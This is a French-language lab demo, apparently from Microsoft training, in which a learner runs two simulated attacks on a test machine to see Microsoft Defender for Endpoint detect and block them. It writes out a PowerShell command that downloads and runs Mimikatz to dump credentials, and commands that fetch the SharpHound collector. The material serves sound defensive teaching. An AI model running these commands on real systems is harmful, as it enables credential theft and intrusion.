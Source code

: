 # Module 2 Démo : atténuation des menaces avec Microsoft Defender pour point de terminaison

**Remarque** : la réussite de cette démonstration dépend de l’exécution correcte de toutes les étapes décrites dans le [document sur les conditions préalables](00-prerequisites.md).

## Attaques simulées

Dans cette tâche, vous allez exécuter deux attaques simulées pour explorer les fonctionnalités de Microsoft Defender for Endpoint.

1. Si vous n’êtes pas déjà sur le portail Microsoft Defender XDR dans votre navigateur, accédez à Microsoft Defender XDR à l’adresse (<https://security.microsoft.com>) en vous connectant en tant qu’administrateur pour votre locataire.

Vous exécuterez les attaques *simulées* à l’aide de *PowerShell* sur *WIN1* pour explorer les fonctionnalités de Microsoft Defender pour point de terminaison.

`Attack 1: Mimikatz - Credential Dumping`

1. Sur l’ordinateur *WIN1*, tapez **Commande** dans la barre de recherche, puis sélectionnez **Exécuter en tant qu’administrateur**.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : invite de commandes**, puis appuyez sur **Entrée** pour l’exécuter.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Vous devez voir un message indiquant que l’*Accès est refusé* ainsi qu’un message contextuel de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Quittez la fenêtre **Administrateur : invite de commandes** en tapant **quitter** et en appuyant sur **Entrée**.

`Attack 2: Bloodhound - Collection`

1. Sur l’ordinateur *WIN1*, entrez **PowerShell** dans la barre de recherche, sélectionnez **Windows PowerShell**, puis **Exécuter en tant qu’administrateur**.

1. Copiez et collez les commandes suivantes dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Remarque :** Il est recommandé de copier, coller et exécuter les commandes une par une. Vous pouvez ouvrir *Bloc-notes* et copier les commandes dans un fichier temporaire pour y parvenir. La première commande crée un dossier nommé *ExternalPayloads* dans le même dossier que le dossier *Atomic Red Team*. La deuxième commande télécharge le fichier *SharpHound.ps1* à partir du référentiel GitHub *BloodHound* et l’enregistre dans le dossier *ExternalPayloads*.

1. Un message contextuel s’affiche à partir de `Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la sortie a la valeur *True*, le fichier de charge utile du programme malveillant n’a pas été supprimé par Microsoft Defender Antivirus. Si la sortie a la valeur *False*, le fichier de charge utile du programme malveillant a été supprimé par Microsoft Defender Antivirus. Utilisez la touche de direction vers le haut pour répéter la commande jusqu’à ce que la sortie soit *False*.

## Vous avez terminé la démonstration.
